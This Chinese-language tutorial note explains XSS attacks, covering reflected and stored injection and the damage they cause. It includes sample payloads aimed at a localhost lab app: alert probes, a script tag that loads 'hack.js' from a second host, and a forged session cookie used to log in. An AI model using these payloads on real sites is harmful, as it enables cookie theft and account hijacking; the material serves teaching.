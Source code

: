 # 网络安全

##  一、常见web攻击

### 1.XSS

- **概念**

  - cross site scripting：跨站脚本攻击

  - XSS（cross site scripting），跨站脚本攻击，因为缩写和CSS重叠，所以只能叫XSS。跨站脚本攻击是指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的非本站点HTML标签或者JavaScript进行的一种攻击。
  - 跨站脚本攻击有可能造成以下影响：
    - 利用虚假输入表单骗取用户个人信心
    - 利用脚本窃取用户的cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
    - 显示伪造的文章或图片。

- **XSS攻击分类**
  - 反射型——url参数直接注入
  
    ```basic
    // 普通
    http://localhost:3000/?from=china
    // alert尝试
    http://localhost:3000/?from=<script>alert(3)</script>
    // 获取cookie
    http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>
    // 短域名伪造
    https://dwz.cn/(看上去不那么奇怪)
    // 伪造cookie入侵Chrome
    document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxO DYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="(在Chrome控制台直接执行，则就会登录进去)
    ```
  
  - 存储型——存储到DB后读取时注入
  
    ```basic
    //评论
    <script>alert(1)</script>
    //跨站脚本注入
    我来了<script src="http://localhost:4000/hack.js"></script>
    ```
  
- **XSS攻击的危害——scripting能干啥就能干啥**
  - 获取页面数据
  - 获取cookie
  - 劫持前端逻辑
  - 发送请求
  - 偷取网站的任意数据
  - 偷取用户的资料
  - 偷取用户的秘密和登录态
  - 欺骗用户
